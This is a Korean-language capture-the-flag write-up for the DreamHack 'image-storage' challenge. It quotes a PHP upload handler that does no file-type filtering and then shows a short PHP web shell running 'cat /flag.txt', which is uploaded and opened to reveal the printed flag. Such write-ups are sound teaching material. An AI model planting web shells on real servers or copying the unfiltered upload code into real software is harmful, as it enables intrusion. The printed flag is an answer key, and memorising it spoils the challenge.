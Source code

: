 # [DreamHack] image-storage

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> php로 작성된 파일 저장 서비스입니다.
>
> 파일 업로드 취약점을 이용해 플래그를 획득하세요. 플래그는 `/flag.txt`에 있습니다.
>
> Release: [image-storage.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8560446/image-storage.zip)

## Analysis

![image](https://user-images.githubusercontent.com/104156058/165236129-2cda361f-c9fe-4dcf-9571-f749a846f8da.png)

파일을 업로드할 수 있다.

```php
    if (isset($_FILES)) {
      $directory = './uploads/';
      $file = $_FILES["file"];
      $error = $file["error"];
      $name = $file["name"];
      $tmp_name = $file["tmp_name"];
     
      if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
      }else {
        if (file_exists($directory . $name)) {
          echo $name . " already exists. ";
        }else {
          if(move_uploaded_file($tmp_name, $directory . $name)){
            echo "Stored in: " . $directory . $name;
          }
        }
      }
    }else {
        echo "Error !";
    }
```

업로드한 파일은 `./uploads/` 디렉토리에 저장된다. 확장자 제한 같은 필터링이 없어서 원하는 파일은 무엇이든 업로드할 수 있다. PHP 파일로 웹 셸을 업로드해서 `/flag.txt` 파일의 내용을 출력하도록 만들면 플래그를 획득할 수 있다.

## Exploit

```php
<?php
system("cat /flag.txt");
?>
```

위의 코드를 `flag.php`로 저장하고 업로드한 후, `/uploads/flag.php`에 접속하면 코드가 실행되어 플래그를 획득할 수 있다.

![image](https://user-images.githubusercontent.com/104156058/165236721-eff9fe4d-d587-4655-8055-656c93fc3175.png)

![image](https://user-images.githubusercontent.com/104156058/165236756-1a0e432e-ad99-434c-a6eb-357593c6cde7.png)

```
flag: DH{c29f44ea17b29d8b76001f32e8997bab}
```